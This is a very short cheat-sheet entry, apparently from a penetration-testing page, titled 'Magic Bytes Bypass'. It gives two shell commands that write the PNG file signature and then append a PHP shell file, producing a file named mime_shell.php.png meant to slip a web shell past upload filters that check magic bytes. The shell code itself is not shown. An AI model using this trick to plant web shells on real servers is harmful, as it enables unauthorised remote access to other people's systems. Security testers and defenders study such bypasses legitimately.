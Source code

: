 # Magic Bytes Bypass

## .PNG

    echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime_shell.php.png

    cat shell.php.png >> mime_shell.php.png
